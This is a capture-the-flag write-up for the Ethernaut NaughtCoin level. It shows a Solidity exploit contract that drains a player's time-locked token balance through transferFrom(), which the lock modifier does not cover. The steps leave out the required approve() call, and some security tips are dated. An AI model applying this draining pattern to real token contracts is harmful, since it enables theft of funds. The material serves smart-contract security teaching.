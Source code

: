 # Ethernaut Level 15: NaughtCoin Exploit

In this level, the NaughtCoin token has a vulnerability due to poor implementation. The exploit is carried out by bypassing the lockTokens modifier and successfully moving the tokens using the combination of approve() and transferFrom() functions.

## NaughtCoin Contract Overview

The NaughtCoin contract is implemented using OpenZeppelin's ERC20 contract. It has a timeLock preventing the player from transferring tokens until the timeLock expires.

```solidity
contract NaughtCoin is ERC20 {
    ...
    uint public timeLock = block.timestamp + 10 * 365 days;
    ...
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

# Hack Contract Overview

The Hack contract interacts with the NaughtCoin contract and exploits the vulnerability by bypassing the lockTokens modifier.

```solidity
contract Hack {
    function pwn(IERC20 coin) external {
        address player = INaughtCoin(address(coin)).player();
        uint256 bal = coin.balanceOf(player);
        coin.transferFrom(player, address(this), bal);
    }
}
```

## Exploit Explanation

1. The Hack contract retrieves the player's address and balance using the balanceOf() function.
2. It then calls the transferFrom() function, which allows the Hack contract to transfer the player's entire token balance to itself, bypassing the lockTokens modifier.

The exploit works because the transferFrom() function in the NaughtCoin contract does not have the lockTokens modifier, which was intended to prevent the player from transferring tokens before the timeLock expires.

## Key Takeaways for Smart Contract Security

1. Make sure to implement all available functions when interfacing with contracts or implementing an ERC interface.
2. Consider using newer protocols like ERC223, ERC721, and ERC827 when creating your own tokens.
3. Check for EIP 165 compliance to confirm which interface an external contract is implementing.
4. Use SafeMath to prevent token under/overflows.

